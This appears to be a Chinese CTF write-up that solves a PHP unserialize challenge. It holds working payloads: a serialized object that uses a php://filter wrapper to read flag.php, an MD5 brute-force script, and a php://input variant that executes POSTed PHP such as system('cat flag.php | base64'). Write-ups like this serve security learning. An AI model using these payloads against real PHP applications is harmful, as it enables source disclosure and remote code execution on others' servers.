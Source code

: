 # 解题方法

源码：

```php
<?php

show_source(__file__);

class loadfile{
    public $file = "fakeflag.php";   //flag is in flag.php
    public function __destruct() {
        include($this->file);
        }
}

$fuck = $_GET['fuck'];
$you = unserialize($fuck);
?>
```

反序列化漏洞，这里提示文件在`flag.php`中，所以将文件名改成`flag.php`即可：

```php
<?php
class loadfile{
    public $file = "php://filter/read=convert.base64-encode/resource=flag.php";   //flag is in flag.php
    public function __destruct() {
        include($this->file);
        }
}
echo serialize(new loadfile());
?>
```

执行结果：`O:8:"loadfile":1:{s:4:"file";s:57:"php://filter/read=convert.base64-encode/resource=flag.php";}`

于是构造：` http://121.36.60.224/?fuck=O:8:"loadfile":1:{s:4:"file";s:57:"php://filter/read=convert.base64-encode/resource=flag.php";}`

![](https://files.catbox.moe/de5vfq.png)

将这里的base64解码一下，得到：

```
<?php
if (is_numeric($_GET['flag']) && strlen($_GET['flag']) === 7){
	if(md5($_GET['flag']) === "84402604c73b70e552b4a109f656a4be"){  //爆破flag哦
		echo "this is the true flag"."<br>";
		echo("flag{".$_GET['flag']."}");
	  }
	else{
		echo("You found me, can you get the flag ???");
	  }
}
?>
```

根据第二行代码提示，需要上传一个7位数字，md5值是`84402604c73b70e552b4a109f656a4be`

写代码爆破：

```
from hashlib import md5
import time
t = time.time()

for i in range(1000000,10000000):
    md = md5(str(i).encode('gb2312')).hexdigest()
    if md == '84402604c73b70e552b4a109f656a4be':
        print('md5:',md)
        print("flag: flag{"+str(i)+"}")
        print("time:",time.time()-t)
```

爆破出来flag是`1919810`，

![](https://files.catbox.moe/t21fkm.png)

最终flag：` flag{1919810} `



# 解法二



在反序列化的时候，如果不采用`php://filter`伪协议读取`flag.php`文件，可以使用`php://input`伪协议执行命令。构造：

```php
<?php
class loadfile{
    public $file = "php://input";   //flag is in flag.php
    public function __destruct() {
        include($this->file);
        }
}
echo serialize(new loadfile());
?>
```

得到：`O:8:"loadfile":1:{s:4:"file";s:11:"php://input";}`

构造：`http://121.36.60.224/?fuck=O:8:%22loadfile%22:1:{s:4:%22file%22;s:11:%22php://input%22;}` 同时POST上传 `<?php phpinfo();?>`

![](https://files.catbox.moe/qpmzqi.png)

根据提示查看`flag.php`源码：

构造POST：`<?php system('cat flag.php | base64');?>`

![](https://files.catbox.moe/d5zeuh.png)

接下来的步骤跟法一一样







